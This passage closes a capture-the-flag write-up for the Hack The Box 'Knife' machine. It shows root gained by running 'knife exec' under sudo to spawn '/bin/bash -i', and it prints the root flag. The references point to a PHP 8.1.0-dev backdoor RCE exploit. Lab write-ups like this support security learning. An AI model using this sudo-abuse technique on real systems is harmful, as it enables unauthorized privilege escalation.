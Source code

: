 Since we can execute code, we can try to spawn a shell by executing `exec "/bin/bash -i"`.

```console
james@knife:/$ sudo /usr/bin/knife exec -E 'exec "/bin/bash -i"'
sudo /usr/bin/knife exec -E 'exec "/bin/bash -i"'
bash: cannot set terminal process group (1035): Inappropriate ioctl for device
bash: no job control in this shell
root@knife:/# cat root/root.txt
cat root/root.txt
069addd9941d215b9215c54bc5588f33
```
Hooray!! We got root.

# Conclusion
To conclude, this box was fair easy after discovering that the web application is using PHP/8.1.0-dev. Without using `nikto`, it was tricky to find a relevant vulnerability.

# References
1. [https://github.com/flast101/php-8.1.0-dev-backdoor-rce](https://github.com/flast101/php-8.1.0-dev-backdoor-rce)
2. [https://docs.chef.io/workstation/knife_exec/](https://docs.chef.io/workstation/knife_exec/)
3. [https://github.com/Wandmalfarbe/pandoc-latex-template](https://github.com/Wandmalfarbe/pandoc-latex-template)
4. [https://hackthebox.eu](https://hackthebox.eu)
